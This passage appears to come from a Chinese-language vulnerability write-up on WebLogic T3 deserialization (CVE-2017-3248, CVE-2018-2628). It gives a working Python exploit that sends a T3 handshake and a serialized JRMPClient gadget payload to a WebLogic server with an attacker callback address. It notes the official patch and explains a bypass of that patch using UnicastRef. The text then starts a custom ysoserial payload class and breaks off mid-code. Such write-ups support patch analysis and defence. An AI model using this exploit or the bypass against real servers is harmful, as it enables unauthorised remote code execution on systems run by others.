 ```python

def exp(host, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, port))

    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n".encode()
    sock.sendall(handshake)
    data = sock.recv(1024)
    pattern = re.compile(r"HELO:(.*).false")
    version = re.findall(pattern, data.decode())
    if len(version) == 0:
        print("Not Weblogic")
        return

    print("Weblogic {}".format(version[0]))
    data_len = binascii.a2b_hex(b"00000000") #数据包长度，先占位，后面会根据实际情况重新
    t3header = binascii.a2b_hex(b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006") #t3协议头
    flag = binascii.a2b_hex(b"fe010000") #反序列化数据标志
    payload = data_len + t3header + flag + payload
    payload = struct.pack('>I', len(payload)) + payload[4:] #重新计算数据包长度
    sock.send(payload)

if __name__ == "__main__":
    host = "127.0.0.1"
    port = 7001
    gadget = "JRMPClient"  #CommonsCollections1 Jdk7u21 JRMPClient
    command = "192.168.1.3:8080" #

    payload = get_payload1(gadget, command)
    exp(host, port, payload)
```

### 修复

补丁：p24667634_1036_Generic
官方的修复是新加resolveProxyClass，过滤java.rmi.registry.Registry

## CVE-2018-2628

上面提到过滤了Registry，这样ysoserial中原生JRMPClient就打不了，但是仍然有多种办法bypass。

>这个CVE廖也提交了绕过，他的绕过是用java.rmi.activation.Activator替换java.rmi.registry.Registry，从而绕过resolveProxyClass的判断。其实这里对接口没有要求，不一定是rmi接口，随便找一个接口都行，比如java.util.Map

直接用UnicastRef。CVE-2017-3248的构造中把UnicastRef放入了Registry，其实用UnicastRef也能在反序列化的时候发起jrmp请求。这种方法要比替换接口的干脆很多。在ysoserial中加一个JRMPClient2

```java
package ysoserial.payloads;

import java.rmi.server.ObjID;
import java.util.Random;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;


@SuppressWarnings ( {
    "restriction"
```